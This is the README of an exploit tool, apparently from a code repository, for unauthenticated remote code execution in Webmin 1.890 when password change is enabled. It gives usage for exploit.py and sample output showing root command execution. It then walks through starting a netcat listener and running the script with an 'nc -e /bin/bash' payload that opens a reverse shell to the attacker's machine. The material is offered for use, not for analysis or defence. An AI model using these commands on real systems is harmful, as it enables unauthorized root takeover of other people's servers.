 # WebMin-1.890-Unauthenticated-RCE

Webmin 1.890 is vulnerable to RCE if “user password change” option to be enabled.<br>

#USAGE: python3 exploit.py [TARGET IP] [COMMAND]
<br>
#Example Output:<br>
<code>python3 exploit.py 1**.2*.*.*** id</code>

&lt;h1&gt;Error - Perl execution failed&lt;/h1&gt;<br>
&lt;p&gt;Your password has expired, and a new one must be chosen.<br>
<strong>uid=0(root) gid=0(root) groups=0(root)</strong><br>
&lt;/p&gt;
<br>
before running script start listener for connection in your machine<br>
<code>nc -nvlp [LPORT]</code> 
run script<br>
<code>python3 exploit.py [RHOST] "nc -e /bin/bash [LHOST] [LPORT]" </code> 
